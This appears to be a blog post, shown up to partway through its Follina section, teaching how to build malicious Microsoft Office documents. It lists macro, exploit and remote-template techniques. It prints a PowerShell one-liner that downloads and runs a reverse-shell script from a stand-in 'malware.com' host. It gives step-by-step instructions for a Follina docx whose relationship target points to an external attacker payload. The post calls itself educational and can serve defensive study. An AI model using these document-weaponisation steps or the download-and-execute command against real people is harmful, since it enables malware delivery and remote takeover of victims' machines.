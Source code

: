 ```yaml
---
title:  "Building Offensive Malicious Documents"
tags: 
- Malicious-Document
- Malware
---
```


Generally, the attacker will use the below techniques in leveraging Microsoft Office features and vulnerabilities:

1. Exploits
2. Macros
3. Remote template injection and many more...

In this post, we will learn various techniques on how to make malicious documents that can execute our malicious code. Of course, to make it simple we will just run the calc/notepad application to show our proof of concept is proven.

Why do security researchers always pop up a calc.exe when doing a Proof-of-Concept? Because it is simple and easy to pop up a calculator, rather than creating Powershell one-liner or shellcoding just to show your POC is proven. Hehe

You can always replace the calc.exe execution with any payload you want like Powershell reverse shell or mshta fileless or anything else that is suitable your appetite but popping up a calc.exe indicated that we can also execute anything we wanted like download and execute malware. Not just a calc.exe execution.

For example, malicious Powershell like below:
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://malware.com/mini-reverse.ps1')
```

This is for education only whereby the purpose of this blog to understand how malicious documents were created by the attacker out there. Do with your own risk.

# Follina

We started with the latest and famous malicious document called Follina. Researchers have reproduced the zero-day with multiple versions of Microsoft Office and even publish their Follina malicious document generator on GitHub.

Here are the steps to build the docx:

Open Microsoft Word, create a dummy document. Insert an (OLE) object (as a Bitmap Image), save it in docx:
![image](https://user-images.githubusercontent.com/56353946/203402911-da9c543b-ffd6-4d3b-bf08-1ad2734b1158.png)

Unzip the docx file and edit `word/_rels/document.xml.rels` in the docx structure. Modify the XML tag `<Relationship` with attribute
`Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject` and `Target="embeddings/oleObject1.bin"` by changing the Target value and adding attribute `TargetMode` like below:
```
Target = "http://malware.domain/payload.html!" TargetMode = "External"
```
![image](https://user-images.githubusercontent.com/56353946/203403755-38afb536-d0b9-458f-b910-487de70ecc14.png)

